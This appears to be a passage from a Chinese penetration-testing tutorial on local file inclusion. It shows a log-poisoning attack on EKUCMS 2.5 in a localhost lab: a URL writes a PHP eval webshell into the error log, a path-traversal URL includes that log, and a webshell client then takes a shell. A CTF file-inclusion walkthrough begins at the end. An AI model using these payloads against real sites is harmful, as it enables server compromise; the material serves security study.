 - 上传自定义文件，再包含上传文件触发本地文件包含漏洞
- 没有上传入口，只能向已有文件中写入攻击代码，再包含写入攻击代码后的已有文件

本CMS漏洞利用方式是后者

该CMS2.5版本存在本地文件包含漏洞。我们可以利用这个漏洞，让其包含日志文件，然后再利用报错信息将一句话木马写入日志中。然后利用文件包含漏洞包含该日志文件，再用菜刀连接拿shell。

渗透之前的操作，比如先用后台扫描工具，扫描得到该网站的后台目录结构，才更好的进行后面的操作。

我们通过访问该url，将一句话木马写入日志文件中，不必写php前后尖括号，因为文件包含会自动将文件内容作为php文件来执行

```
http://localhost/pentest/include/ekucms/index.php?s=my/show/id/{~eval($_POST[x])}
```

网页返回报错信息

![](https://img.yatjay.top/md/202203132151885.png)

报错信息会记录在`ekucms\temp\Logs`下的文件中，在日志文件中可以看到刚才提交的后门代码已经写入日志文件，日志文件名为`年_月_日.log`

![](https://img.yatjay.top/md/202203132152107.png)

使用下面的url将日志文件包含进来，并触发文件包含漏洞

```
http://localhost/pentest/include/ekucms/index.php?s=my/show/id/\..\temp\logs\22_03_13.log
```

使用菜刀访问上述url触发文件包含漏洞并获取Webshell

![](https://img.yatjay.top/md/202203132157251.png)

![](https://img.yatjay.top/md/202203132157593.png)

或直接在浏览器中提交POST参数值

![](https://img.yatjay.top/md/202203132204129.png)

## CTF-南邮大,i春秋百度杯真题-白盒——手工看参数值及功能点

### 南邮杯

题目位置：http://4.chinalover.sinaapp.com/web7/index.php

作为一道CTF题目，先观察URL可知，似乎意在考查文件包含

进入后显示为`index.php`

![](https://img.yatjay.top/md/202203131728577.png)

点击后显示为`index.php?file=show.php`

![](https://img.yatjay.top/md/202203131729968.png)

直接访问show.php和`index.php?file=show.php`结果相同，这说明是将show.php文件包含执行

![](https://img.yatjay.top/md/202203131729447.png)
